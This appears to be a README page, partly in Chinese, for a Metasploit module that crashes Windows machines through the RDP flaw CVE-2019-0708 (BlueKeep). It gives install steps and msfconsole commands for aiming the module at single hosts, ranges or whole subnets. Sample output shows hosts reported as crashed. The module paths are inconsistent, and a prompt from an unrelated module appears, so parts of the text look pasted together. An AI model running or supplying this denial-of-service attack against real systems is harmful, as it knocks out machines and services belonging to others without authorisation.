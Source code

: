 # CVE-2019-0708

这是个针对2019-0708漏洞的蓝屏教程（大雾
https://github.com/mekhalleh/cve-2019-0708
## Verification Steps

  1. Install the module as usual (`~/.msf4/modules/auxiliary/dos/rdp/`)
  2. Start msfconsole
  3. Do: `use auxiliary/dos/rdp`
  4. Do: `set hostname 192.168.1.1`
  5. Do: `set verbose true`
  6. Do: `run`

代码为 
```
use exploit/jojo/cve_2019__bluekeep_dos 

info

set rhosts 192.168.100.86(目标IP)

set verbose true 

run
```

  **RDP_CLIENT_IP**

  The client IPv4 address to report during connection. Default: 192.168.0.1

  **RDP_CLIENT_NAME**

  The client computer name to report during connection. Default: rdesktop, Unset: Randomized

  **RDP_DOMAIN**

  The client domain name to report during connect

  **RDP_USER**

  The username to report during connection. Default: Randomized

  **RHOSTS**

  Target address, address range or CIDR identifier.

    msf auxiliary(gather/behind_cloudflare) > set rhosts 192.168.1.14
    --or--
    msf auxiliary(gather/behind_cloudflare) > set rhosts 192.168.1.17-89
    --or--
    msf auxiliary(gather/behind_cloudflare) > set rhosts 192.168.1.0/24

  **RPORT**

  The target TCP port on which the RDP protocol response. Default: 3389


  **THREADS**

  The number of concurrent threads. Default: 1

  **VERBOSE**

  You can also enable the verbose mode to have more information displayed in the console.

  ## Scenarios

  ### For auditing purpose

  If successful, you must be able to obtain following status:
  ```
msf5 auxiliary(dos/rdp/cve_2019_0708_bluekeep_dos) > run

[+] 172.20.2.31:3389 - The host is crashed!
[*] 172.20.2.31:3389 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf5 auxiliary(dos/rdp/cve_2019_0708_bluekeep_dos) > run

[*] 172.20.2.25-35:3389 - Scanned  2 of 11 hosts (18% complete)
[*] 172.20.2.25-35:3389 - Scanned 10 of 11 hosts (90% complete)
[+] 172.20.2.31:3389 - The host is crashed!
[*] 172.20.2.25-35:3389 - Scanned 11 of 11 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

















